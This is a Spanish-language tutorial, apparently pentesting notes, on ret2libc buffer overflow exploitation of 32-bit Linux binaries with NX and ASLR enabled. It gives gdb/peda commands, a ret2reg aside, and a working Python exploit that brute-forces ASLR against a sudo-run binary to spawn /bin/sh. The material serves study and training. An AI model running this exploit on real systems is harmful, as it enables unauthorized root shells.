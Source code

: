 -----
- Tags: #teoria #practica #avanzado 
-----

# ¿ Que es un **ret2libc** ?

Cada vez que nos encontramos con un programa en C que utiliza funciones típicas como printf, scanf, put, etc. todas estas son compiladas en un solo archivo que es la librería estándar de C o **libc**. 
**Ret2libc** es una técnica que se basa en ejecutar código que no se encuentra en la pila sino en un sector de la memoria de libc, que es ejecutable. Es decir, el código utilizado para vulnerar el programa son funciones dentro de esta librería. 

------------

# Buffer Overflow ret2libc x86 linux

En esta ejemplo nos podríamos enfrentar a un binario vulnerable a buffer overflow en un sistema de 32 bits con **protecciones activas** (NX) y **ASLR activado** (Aleatoriedad den la disposición del espacio de direcciones, es decir un técnica de seguridad informática). 

Como debugger usaremos la herramienta **gdb** (`sudo apt install gdb`) y lo fusionaremos como un script llamado [peda](https://github.com/longld/peda) (El cual cumple la misma función que *mona* en el Immunity Debugger). 

El proceso para explotar el Buffer Overflow es lo mismo de siempre pero con algunas variaciones, en este caso el binario contara con una protección de tipo *NX* lo que nos impide capturar el registro **EIP** para apuntar al registro **ESP** donde en el **stack** estará nuestro **shellcode**, debido a que NX deriva de No Execution, y nos impide poder ejecutar nuestro shellcode almacenado en la pila. 

Por lo que el proceso inicial es el mismo de siempre, primero tenemos que capturar el **offset**: 

```bash
# Ejecutamos el binario con el debugger gdb en modo "quiet"
gdb {binary} -q 
# Creamos un pattern para sobrescribir la pila y posteriormente sacar nuestro offset 
patter_create {size}
# Corremos el binario con el output "malicioso"
r {patter_created}
# Una vez sobrescrito los registros del sistema, calculamos el offset en base al valor almacenado en el registro EIP 
pattern offset $eip 
```

Una vez con el offset, podríamos verificar si existen protecciones para este binario: 

```bash
# Una vez en gdb: 
checksec 
```

En este ejemplo, contamos con un binario el cual tiene la protección **NX** activada, por lo que podemos empezar a pensar en un **ret2libc**, mediante la captura del registro **EIP**, este tiene que apuntar a la dirección de **system**, **exit** y el string **bin sh**.

Pero para esto, debemos primeramente determinar si el **ASLR** esta habilitado: 

```bash
# Ver librerias compartidas del binario utilizado
ldd {binary}
#  Quedarnos con la dirección de memoria de la librería libc 
ldd {binary} | grep libc | awk 'NF{print $NF}' |  tr -d '()'
# Con esto, podríamos ver si ejecutamos 10, 20 u x veces esto comando, si las mismas cambian, en caso de que las direcciones cambien quiere decir que el ASLR esta habilitado: 
for i in $(seq 1 20); do ldd {binary} | grep libc | awk 'NF{print $NF}' | tr -d '()'; done 

# Otra manera de ver si el ASLR esta activado o no es: 
cat /proc/sys/kernel/randomize_va_space

```

En caso de que el **ASLR** este desactivado, las direcciones de memoria de las funciones **system**, **exit** y la cadena **bin sh** se pueden sacar con *peda* desde el propio binario siendo estas estáticas: 

```bash
# Ver funciones disponibles
info functions 
# Meter breakpoint en la función main
b *main
# Ejecutar el programa con cualquier cosa para que cuando se ejecute se detenga en el comienzo debido al breakpoint
r 'AAAAAAAAAAAAAAAAAA'
# Ahora podemos realizar consultas...
# Mostrar la dirección de system 
p system 
# Mostrar la dirección de exit
p exit 
# Buscar la cadena "bin sh"
find "/bin/sh"
```

Con dichas direcciónes podríamos realizar el Buffer Overflow ingresando la cantidad de caracteres necesarios según el **offset**, para posteriormente una vez controlado el registro **EIP** apuntar a la dirección de **system**, luego **exit** y **"/bin/sh"**. 

Ahora, en caso de que el **ASLR** este activado, las direcciones de memoria cambian constantemente, esto complica la labor del atacante, PERO, en maquinas *x86* las direcciones no son muy largas, por lo que si ejecutamos 1000+ veces el comando, pueden existir coincidencias, es decir, que al ser direcciones al no ser muy grandes muchas veces  las direcciones coincidirán entre si, es decir, debemos hacer uso de la *fuerza bruta*.

Ejecutando muchas veces el binario hasta que **libc** valga una dirección, una vez que coincida la dirección *base* de **libc** deberíamos calcular las distancias para llegar a las direcciones reales de **system**, **exit** y **"/bin/sh"**. 

Como dijimos, en este caso deberíamos tomar una dirección random de la librería **libc** para que con esta junto a los **offset** de las funciones mencionadas, calcular el espacio real en memoria: 

```bash
# Capturar una dirección de memoria base de libc 
ldd {binary} | grep libc | awk 'NF{print $NF}' | tr -d '()' 
# Instalar binutils para poder usar una herramienta para sacar los offset de las funciones 
sudo apt install binutils
# Hacer uso de "readelf" para obtener información de binarios elf (Listar la tabla de simbolos )
ldd {binary}
# stdout: 
#      linux-gate.so.1 =>  (0xb774a000)
#	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7588000)
#	/lib/ld-linux.so.2 (0xb774b000)

# libc_path = /lib/i386-linux-gnu/libc.so.6) 
# Obtener offset de las funciones para sumarselos a la direccion base de libc
readelf -s {libc_path} | grep -E " system| exit"

# Obtener el offset de la cadena "/bin/sh"
strings -a -t x {libc_path} | grep "/bin/sh"
```

De esta manera, una vez obtenidas las direcciones, simplemente deberíamos sumarlas a la dirección base de *libc* y tendríamos el **buffer overflow x86 linux ret2libc** 

#### exploit.py
```python
#!/usr/bin/python3

import subprocess, sys
from struct import pack

# Global Vars

# ret2libc ---> system + exit + /bin/sh

offset = 112
before_eip = b"A"*offset

# BASE_LIBC_ADDR:
# ldd {binary} | grep libc | awk 'NF{print $NF}' | tr -d '()'
# b75db000
base_libc_addr = 0xb75db000

# SYSTEM_ADDR_OFF & EXIT_ADDR_OFF:
# dobliuw@ubuntu:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E ' exit| system'
#   141: 0002e9e0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
#  1457: 0003adb0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

# "BIN_SH_OFF:
# strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
# 15bb2b /bin/sh

# OFFSET DE LAS FUNCIONES:
system_addr_off = 0x0003adb0
exit_addr_off = 0x0002e9e0
bin_sh_off = 0x0015bb2b

# CALCULO DE LAS DIRECCIÓNES REALES:
system_addr = pack("<L", base_libc_addr + system_addr_off)
exit_addr = pack("<L", base_libc_addr + exit_addr_off)
bin_sh = pack("<L", base_libc_addr + bin_sh_off)

payload = before_eip + system_addr + exit_addr + bin_sh


def exploit():
	while True:
		result = subprocess.run(["sudo", "/usr/bin/custom", payload])
		if result.returncode == 0:
			print("\n\n\t[!] Quiting...\n\n")
			sys.exit(0)


if __name__ == "__main__":
	exploit()
```

----

# Ret2reg

Adicionalmente, algo que de podría haber intentado en este caso, es un **ret2reg**, es decir **retornar a un registro**. Muchas veces, antes de realizar un *ret2libc* y realizar fuerza bruta en caso de que el sistema tenga el **ASLR** activado, podríamos intentar hacer uso de esta técnica la cual consiste en hacer que el registro *EIP* valga una dirección en memoria perteneciente al **opcode CALL EAX** , el cual así como JMP ESP es un OpCode el cual conduce el flujo del programa al registro ESP, el CALL EAX conduce el flujo del programa al registro **EAX**. 

En algunos casos, al sobrescribir el búfer, se puede generar el caso en el que el inicio de nuestra cadena ingresada comience por el registro EAX, siendo este caso un buen momento para pensar en **ret2reg**, donde si contamos con la suerte de que el binario vulnerable contenga direcciónes de CALL EAX al estar alojadas en el propio binario, estas son *estáticas*. 

```bash
# Listar información de los registros con gbd
i r 
info registers
# Listar 16 palabras de un registro (Ej, eax) con gdb
x/16wx $eax 
```

#### Obtener el OpCode de **CALL EAX**: 
```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
# nasm > CALL EAX 
# 00000000  FFD0              call eax
```

#### Verificar si se aloja el OpCode **CALL EAX** en el binario: 
```bash
objdump -d {binary} | grep -i "FF D0"
```

